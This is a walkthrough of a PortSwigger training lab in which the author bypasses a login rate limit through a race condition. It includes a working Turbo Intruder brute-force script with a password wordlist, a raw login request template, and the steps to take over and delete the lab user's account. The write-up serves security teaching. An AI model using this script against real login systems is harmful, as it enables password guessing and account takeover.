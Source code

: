 # Bypassing rate limits via race conditions | August 31, 2023

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits), you'll learn: Bypassing rate limits via race conditions! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.

To solve the lab:

1. Work out how to exploit the race condition to bypass the rate limit.
2. Successfully brute-force the password for the user `carlos`.
3. Log in and access the admin panel.
4. Delete the user `carlos`.

You can log in to your account with the following credentials: `wiener:peter`.

You should use the following list of potential passwords:

```
123123
abc123
football
monkey
letmein
shadow
master
666666
qwertyuiop
123321
mustang
123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
1234567890
michael
x654321
superman
1qaz2wsx
baseball
7777777
121212
000000
```

> Note
>  
> - Solving this lab requires Burp Suite 2023.9 or higher. You should also use the latest version of the Turbo Intruder, which is available from the [BApp Store](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988).
> - You have a time limit of 15 mins. If you don't solve the lab within the time limit, you can reset the lab. However, Carlos's password changes each time.

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831133635.png)

In here, we can view blog posts.

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831133712.png)

**We can try to brute force user `carlos`'s password:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831133757.png)

**After some testing, I found that there's a rate limit. After 3 wrong login attempts, we'll be locked out:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831133907.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831133951.png)

When we clicked the "Log in" button, it'll send a POST request to `/login`, with parameter `csrf`, `username`, and `password`.

Let's test for **race condition**!

**After rate limited is gone, send the login request to Burp Suite's Repeater 5 times, group them together, select "Send group (parallel)", and send it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831134333.png)

Nice! No more rate limiting! That being said, the login function is vulnerable to race condition.

## Exploitation

**Now, we can use "Turbo Intruder" to brute force `carlos`'s password with bypassing rate limiting via race condition:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831134514.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831134525.png)

**In the Python editor, choose the `examples/race-single-packet-attack.py` Python template:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831134720.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831134733.png)

**In order to make it brute force user `carlos`'s password, we'll need to modify the template to:**
```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    wordlist = ['123123', 'abc123', 'football', 'monkey', 'letmein', 'shadow', 'master', '666666', 'qwertyuiop', '123321', 'mustang', '123456', 'password', '12345678', 'qwerty', '123456789', '12345', '1234', '111111', '1234567', 'dragon', '1234567890', 'michael', 'x654321', 'superman', '1qaz2wsx', 'baseball', '7777777', '121212', '000000']
    # the 'gate' argument withholds the final byte of each request until openGate is invoked
    for password in wordlist:
        engine.queue(target.req, password, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')

def handleResponse(req, interesting):
    table.add(req)
```

**And add `%s` string formatting placeholder in the `password` POST parameter in the HTTP request:**
```http
POST /login HTTP/2
Host: 0a8700c60427bda288e290c7001500b5.web-security-academy.net
Cookie: session=4EAp3UZ022KeX6D50w7FESJoixZtTh5s

csrf=dL20kaRyH4RJaFOtxT5KbhLdJtVIZYwe&username=carlos&password=%s
```

**Then launch the attack:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831135721.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831140304.png)

In here, we found that there's a **HTTP status code "302 Found"**, which means this request has the correct password!

**Finally, login as `carlos`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831140419.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831140426.png)

**I'm user `carlos`! Let's delete it!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831140456.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Race-Conditions/Race-Conditions-2/images/Pasted%20image%2020230831140503.png)

## Conclusion

What we've learned:

1. Bypassing rate limits via race conditions